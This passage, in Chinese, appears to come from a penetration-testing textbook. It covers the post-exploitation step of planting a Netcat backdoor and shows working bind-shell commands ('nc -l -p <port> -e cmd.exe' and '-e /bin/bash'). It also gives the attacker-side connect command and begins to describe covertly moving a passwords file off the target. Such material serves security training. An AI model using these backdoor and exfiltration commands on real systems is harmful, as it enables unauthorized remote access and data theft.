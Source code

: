 一旦获得访问权限并获得足够的特权，就该执行受害者上的应用程序了。在这一点上执行哪些类型的应用程序或操作是您需要决定的，但您可以做的事情非常多。

# 练习-使用 Netcat 种植后门

**Netcat**就像 TCP/IP 堆栈中的瑞士军刀。它是一个非常受欢迎的网络工具，为网络和安全专业人员提供了许多功能；其中一些功能包括以下内容：

+   能够在网络上传输数据

+   能够传输文件

+   打开服务端口

+   进行端口扫描和横幅抓取

Netcat 并不特定于操作系统；它适用于 Windows 和 Linux 平台。在本节中，我们将看一些 Netcat 的例子和用法。

要连接到另一台机器，请执行以下操作：

```
nc <host IP address> < port> 
```

要监听入站连接，请发出以下命令：

```
nc -l -p <port> 
```

只需用远程系统上的任何未使用的有效端口替换端口号。

在您希望连接的系统上运行以下命令：

```
nc <remote host IP address> <remote port> 
```

这个命令表示要联系远程系统，然后连接到您告诉`nc`在远程系统上监听的端口。

让我们再深入一点。

现在让我们在目标系统上创建一个后门，我们可以随时使用。根据您是否针对 Linux 或 Windows 系统，命令会略有不同。

对于 Windows，我们使用以下命令：

```
 nc -l -p <port number> -e cmd.exe
```

对于 Linux，我们使用这个：

```
nc -l -p <port number> -e /bin/bash 
```

在这两个命令中，使用-e 开关来在连接到命令 shell 时执行命令。这意味着我们将在本地获得一个 shell，我们可以用它来向远程系统发送命令。然后，在我们的攻击系统上，我们输入以下内容：

```
nc <remote host IP address> <remote port> 
```

在这一点上，如果您成功执行了命令，您将看到一个命令提示符，允许您与远程系统进行交互。

Netcat 也可以用于从目标中转移文件和数据。我们可以使用隐蔽连接将数据慢慢复制到我们的本地系统。在这个例子中，我们将转移一个名为`passwords.xls`的文件，可能是一个包含密码的 Excel 文件。

